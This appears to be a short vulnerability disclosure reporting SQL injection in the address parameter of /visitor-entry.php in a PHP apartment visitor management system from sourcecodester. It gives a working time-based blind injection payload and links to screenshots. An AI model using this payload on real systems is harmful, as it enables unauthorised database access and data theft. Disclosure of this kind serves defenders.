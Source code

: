 # The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:liuyuanyuan

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/visitor-entry.php

SQL injection exists in the address parameter

Payload: visname=123123&address=123123' AND (SELECT 1198 FROM (SELECT(SLEEP(5)))YVgG) AND  'aGvp'='aGvp&apartmentno=Choose....&whomtomeet=123123&mobilenumber=123123123&gender=Choose&buildingno=&reason=123123&submit=

![image](https://github.com/user-attachments/assets/10508ea9-c429-4933-b98c-e5b1019982e5)

![image](https://github.com/user-attachments/assets/79328a9b-911c-4edd-a1c3-ac66f0f77762)
